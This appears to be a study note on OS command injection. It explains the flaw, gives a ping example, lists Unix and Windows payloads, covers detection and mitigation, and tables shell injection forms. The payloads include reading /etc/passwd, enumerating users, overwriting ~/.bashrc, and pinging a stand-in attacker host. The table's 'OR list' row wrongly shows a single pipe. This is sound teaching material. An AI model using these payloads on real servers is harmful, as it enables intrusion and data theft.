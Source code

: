 	## OS Command Injection

- **What:** The application builds or calls OS shell commands using unsanitized user input. An attacker injects OS commands to be executed on the server. This usually leads to full system compromise.
    
- **Example:** Suppose `GET /ping?host=example.com` runs `ping example.com` on the server. An attacker supplies `host=example.com && whoami`. The app executes `ping example.com && whoami`, returning the `whoami` output. PortSwigger’s example uses `& echo test &` to inject a harmless echo, but any command works similarly.
    
- **Payloads:**
    
    - **Unix-like:** Append `; whoami;`, `&& id`, `; cat /etc/passwd;`, or use `|` to pipe (`| cat /etc/passwd`). For blind injection, `; sleep 5;` delays response or use `ping -c5 attacker.com` for OOB.
        
    - **Windows:** Use `& whoami &`, `&& net user`, `| dir C:\`, or `& ping -n 5 attacker.com`.
        
    - **Command separators:** `;`, `&&`, `||` (Unix); `&`, `&&`, `|` (Windows) allow chaining multiple commands.
        
- **Detection:** Inject a benign command to see output. For example, adding `& echo INJECTION&` should return `INJECTION` if successful. If no output is shown (blind), use delays or redirect output to a file you can fetch.
    
- **Mitigation:** Avoid shelling out with user data. Use language-specific safe APIs (escaped arguments) or validate/whitelist input.

## Some formats for injection

| Shell feature                                                                                     | `USER_INPUT` value        | Resulting shell command                  | Explanation                                                                                                                                       |
| ------------------------------------------------------------------------------------------------- | ------------------------- | ---------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------- |
| Sequential execution                                                                              | `; malicious_command`     | `/bin/funnytext ; malicious_command`     | Executes `funnytext`, then executes `malicious_command`.                                                                                          |
| [Pipelines](zim://074f796e-e79e-b02c-b290-ac27ad1fecd6.zim/A/Pipeline_\(Unix\) "Pipeline (Unix)") | `\| malicious_command`    | `/bin/funnytext \| malicious_command`    | Sends the output of `funnytext` as input to `malicious_command`.                                                                                  |
| Command substitution                                                                              | `` `malicious_command` `` | `` /bin/funnytext `malicious_command` `` | Sends the output of `malicious_command` as arguments to `funnytext`.                                                                              |
| Command substitution                                                                              | `$(malicious_command)`    | `/bin/funnytext $(malicious_command)`    | Sends the output of `malicious_command` as arguments to `funnytext`.                                                                              |
| AND list                                                                                          | `&& malicious_command`    | `/bin/funnytext && malicious_command`    | Executes `malicious_command` [iff](zim://074f796e-e79e-b02c-b290-ac27ad1fecd6.zim/A/Iff "Iff") `funnytext` returns an exit status of 0 (success). |
| OR list                                                                                           | `\| malicious_command`    | `/bin/funnytext \| malicious_command`    | Executes `malicious_command` [iff](zim://074f796e-e79e-b02c-b290-ac27ad1fecd6.zim/A/Iff "Iff") `funnytext` returns a nonzero exit status (error). |
| Output redirection                                                                                | `> ~/.bashrc`             | `/bin/funnytext > ~/.bashrc`             | Overwrites the contents the `.bashrc` file with the output of `funnytext`.                                                                        |
| Input redirection                                                                                 | `< ~/.bashrc`             | `/bin/funnytext < ~/.bashrc`             | Sends the contents of the `.bashrc` file as input to `funnytext`.                                                                                 |

